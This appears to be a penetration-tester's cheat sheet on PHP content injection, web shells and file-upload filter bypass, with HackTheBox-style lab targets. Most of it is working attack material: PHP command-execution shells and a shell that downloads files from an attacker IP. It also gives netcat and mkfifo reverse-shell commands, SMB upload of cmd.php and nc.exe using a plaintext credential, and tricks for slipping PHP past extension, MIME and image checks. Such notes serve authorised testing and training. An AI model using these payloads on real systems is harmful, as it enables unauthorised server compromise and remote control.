 ## PHP Content Injection:  

	Anywhere to edit and then execute/access a .php file? - Wordpress/Joomla theme file, etc.
		See reverse shells page - pick language based on web page format
			*PHP Advanced Content Inject Reverse Shell
	Troubleshooting:  try URL encoding of characters; if shell is blocked, try common port like 80 or 443
	Test:  <?php phpinfo(); ?>
	ex. <?php echo shell_exec($_GET['cmd']); ?>
		http://127.0.0.1/webshell.php?cmd=id
		http://127.0.0.1/wordpress/?cmd=nc [IP attack box] [port] -e /bin/sh
	ex. <?php system($_GET["cmd"]); ?>
	ex. <?php passthru($_GET["cmd"]); ?>	
	ex. PHP Non-Interactive Web Shell:
		<?php if (isset($_REQUEST[‘fupload’])) { file_put_contents($_REQUEST[‘fupload’], file_get_contents(‘http://IP_ADDR/' . $_REQUEST[‘fupload’])); }; if (isset($_REQUEST[‘fexec’])) { echo ‘<pre>’ . shell_exec($_REQUEST[‘fexec’]) . ‘</pre>’; }; ?>
		Access: <filename>.php?fupload=nc.exe (for example) and <filename>.php?fexec=nc IP PORT
	
## File Upload / Web Shells:  

	General Upload Test:  `davtest -url http://10.10.10.15`
	Look for alternate upload locations: SMB, FTP, etc.
		Example:
			smbclient -U 'tyler%92g!mA8BGjOirkL%OG*&' //10.10.10.97/new-site -c 'put cmd.php cmd.php'
			curl -s -X GET http://secnotes.htb:8808/cmd.php?cmd=whoami
			smbclient -U 'tyler%92g!mA8BGjOirkL%OG*&' //10.10.10.97/new-site -c 'put nc.exe nc.exe'
			curl -s -X GET http://secnotes.htb:8808/cmd.php?cmd=nc.exe+-e+cmd.exe+10.10.14.3+443
	PHP Web Shell:  ex. https://raw.githubusercontent.com/artyuum/simple-php-web-shell/master/index.php	
	Filter Bypass:
		https://book.hacktricks.xyz/pentesting-web/file-upload
		https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files
		- Rename:
			Try upload as shell.php.jpg or shell.php%00.jpg or shell.jpg.php
			.php, .pht, .phtml, .php3, .php4, .php5, .inc
			.asp, .aspx
			.pl, .pm, .cgi, .lib
			.jsp, .jspx, .jsw, .jsv, .jspf
			.cfm, .cfml, .cfc, .dbm
		- Rename after uploading (ex. upload as .html, then move to .aspx):
			    - Upload file with curl:  `curl http://10.10.10.15/ --upload-file shell.txt`
				- or:   `curl -X PUT -d '<?php system($_GET["c"]);?>' http://192.168.2.99/shell.php`
			- Move/Rename file:  `curl -X MOVE --header "Destination:http://10.10.10.15/shell.aspx" http://10.10.10.15/shell.txt`
				- ex.  `curl -X MOVE --header "Destination:http://10.10.10.15/nc.exe" http://10.10.10.15/nc.txt`
		-Bypass MIME type validation:
			Burpsuite: modify POST request Content-Type header
			Edit magic bytes:  echo '89 50 4E 47 0D 0A 1A 0A' | xxd -p -r > mime.php.png
				Or:  add before shellcode: `GIF89a;`
		-Image Hidden PHP Code (bypasses getimagesize() validation):
			w/ Gimp--put code in properties/comments 
			exiftool -Comment='<?php echo "<pre>"; system($_GET['cmd']); ?>' file.jpg
	ex. PHP code in image:
		cp original.png ./shell.php.png
		echo '<?php' >> ./shell.php.png
		echo 'passthru("whoami");' >> ./shell.php.png
		#echo 'passthru("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.18 4444 >/tmp/f");' >> ./shell.php.png
			Or: echo 'system($_REQUEST["cmd"]);' >> ./shell2.php.png
		echo '?>' >> ./shell.php.png
		visit example.com/uploads/shell.php.png or example.com/uploads/shell.php.png?cmd=id
